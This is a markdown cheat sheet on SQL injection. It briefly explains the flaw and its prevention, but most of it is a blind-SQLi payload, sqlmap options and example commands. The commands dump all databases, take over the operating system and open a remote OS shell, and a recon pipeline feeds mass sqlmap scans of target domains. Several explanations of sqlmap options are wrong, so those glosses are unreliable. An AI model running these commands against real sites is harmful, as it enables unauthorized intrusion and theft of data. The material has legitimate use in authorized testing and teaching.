


  

---
  
 
**SQL injection** is a type of web application security vulnerability that allows an attacker to inject malicious SQL statements into an application's input field, which can then be executed by the application's database. This type of attack can result in the unauthorized access to sensitive data or the manipulation of the database.

SQL injection attacks are typically executed by entering malicious code into an application's input fields, such as login forms or search boxes. If the application does not properly sanitize the user input before sending it to the database, the attacker can manipulate the SQL query to retrieve data that they should not have access to, modify or delete data from the database, or execute other malicious actions.

To prevent SQL injection attacks, applications should use parameterized queries, which allow the application to send input data to the database separately from the SQL statement. This ensures that the user input is properly sanitized before it is used in the query, preventing malicious SQL statements from being executed. Additionally, input validation and sanitization should be used to filter out any unexpected or harmful input from user input fields.

## Payloads

---

### Resources

* [Payload-Box](https://github.com/payloadbox/sql-injection-payload-list)

* [Port-Swigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

* [Inviciti](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)

* [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

### Bypassing Email Filter which leads to SQL Injection

🔗 Source :
[Dimaz Arno](https://dimazarno.medium.com/bypassing-email-filter-which-leads-to-sql-injection-e57bcbfc6b17)

### Blind Sql fresh payloads

    "0"XOR(if(now()=sysdate()%2Csleep(6)%2C0))XOR"Z"

---

## Sqlmap   

### General syntax: 
  
      sqlmap -u [target_URL] -p [parameter] [option]

### Basic options:
    
        --batch: Non-interactive mode
    
        --data: Used when submitting information via POST
    
        --cookie: Submit a cookie along with the request
    
        --threads: Number of threads to use

### Injection techniques: 
    
        --technique=BT: Blind boolean-based
    
        --technique=QT: Error-based
    
        --technique=EU: Error-based union query

### Enumeration options:
    
        --tables: List all database tables
    
        --columns: List all columns from specified database tables
    
        --dbs: List all databases
    
        --hostname: Display hostname of DBMS

### Database fingerprinting:
    
        --fingerprint: Fingerprint the DBMS

### Dumping options:
    
        --dump: Dump all data from a specific database table 
    
        --dump-all: Dump all databases

### Miscellaneous options:
    
        --flush-session: Flush session information
    
        --answers: Specify yes/no for questions
    
        --update: Update sqlmap

### Sqlmap Commands

---
  
Connect to a website where the URL points to a vulnerable web application which is backed by a MySQL server. It then retrieves the database names from the 'user' and 'pass' parameters given in the command.

    sqlmap -u http://www.example.com/db.php?id=1 --dbms=MYSQL --data="user=foo;pass=bar" --dbs 

---
  
Retrieve the tables present in the database specified in the URL given in the command, and then to dump the content of all the tables into the 'test' output file.

    sqlmap -u http://www.example.com/db.php?id=1 --tables -o test --dump

---
  
Crawl 2 levels of the website specified in the URL given in the command, looking for the parameter 'wp-api-token', and then retrieve the content of the 'users' table.

    sqlmap -u http://www.example.com/db.php?id=1 --crawl=2 --randomize-string='?wp-api-token' --table 'users'

---
  
Login with the 'martin' username, retrieve the content of the database specified in the URL given in the command and then to dump the content of all the tables into binary files.

    sqlmap -u http://www.example.com/db.php?id=1 --os-user='martin' --dump -b 

---
  
Analyze the html forms present in the website identified by the specified URL and then to follow redirects for 3 levels, using the experience techniques for exploiting each form.   
    
    sqlmap -u http://www.example.com/db.php?id=1 --forms --follow-redirect --level=3 --technique=E  

---
  
Perform an Operating System takeover, allowing it to read and write files on the remote system.

    sqlmap -u http://www.example.com/db.php?id=1 --os-pwn 

---
  
Retrieve the database schema of the database specified in the URL given in the command, using the X-Forwarded-For header to mask the client's IP.

    sqlmap -u http://www.example.com/db.php?id=1 --dbms=MYSQL --schema --header="X-Forwarded-For: 192.168.0.1" 

---
  
Query the database specified in the URL given in the command, executing the given SELECT statement, and then dumping the result of the query into a file.

    sqlmap -u http://www.example.com/db.php?id=1 --dbms=MYSQL --query "SELECT user FROM table WHERE id=1" --dump 

---
  
Identify the web application firewall present in the website specified in the URL given in the command, and then download the default page the web application serves. 

    sqlmap -u http://www.example.com/db.php?id=1 --identify-waf --dbms=MYSQL --download-page 

---
  
Establish an interactive shell between the remote client and the web application, allowing the remote user to execute OS commands on the remote target.  

    sqlmap -u http://www.example.com/db.php?id=1 --os-shell 

---

### Method

    subfinder -d target | tee -a domains

    cat domain | httpx | tee -a text.txt

    cat text.txt | waybackurls | tee -a urls 

    gf sqli urls >> sqli

    sqlmap -m sqli --dbs --batch

---

## Preventing SQL injection

The best way to protect against SQL injection is to never put user-supplied input directly into an SQL query. Instead, use parameterized queries, which escape potentially malicious characters, and use the appropriate data types for user-supplied input (e.g. numeric values should be validated as such).Furthermore, proper authentication and authorization should be implemented, to ensure that only users with the correct privileges can access sensitive resources.

Resources for SQL injection prevention:

 --> [Infosec Mozilla](https://infosec.mozilla.org/guidelines/web_security#web-security-cheat-sheet)

 --> [OWASP top 10](https://owasp.org/www-community/attacks/SQL_Injection)

 

---

